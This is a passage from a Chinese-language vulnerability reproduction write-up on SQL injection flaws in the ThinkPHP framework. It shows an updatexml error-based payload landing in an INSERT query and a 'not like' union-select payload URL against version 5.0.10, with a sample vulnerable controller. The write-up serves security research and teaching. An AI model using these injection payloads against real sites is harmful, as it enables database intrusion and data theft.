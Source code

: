```php
        }

        return $result;
    }
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204101417411.png)

最终得到的result为`'b' and updatexml(1,concat(0x7e,user(),0x7e),1))-- ('POINT(a)')`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204101419689.png)

最终执行的sql语句为

```
INSERT INTO `users` (`username`) VALUES ('b' and updatexml(1,concat(0x7e,user(),0x7e),1))-- ('POINT(a)')) 
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204101422994.png)

>除了使用`insert`方法外,还可以使用`insertAll`和`update`方法

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204101427347.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204101427972.png)

# parseWhereItem导致sql注入(not like)

>测试版本为5.0.10

## 漏洞复现

```php
<?php
namespace app\index\controller;
use think\Db;

class Index
{
    public function index()
    {
        $username = input('get.username/a');
        $result=Db::table("users")->where(['username' => $username])->select();
        var_dump($result);
    }
}
```

`?username[0]=not like&username[1][0]=asdf&username[1][1]=asdf&username[2]=) union select 1,user(),3--+`
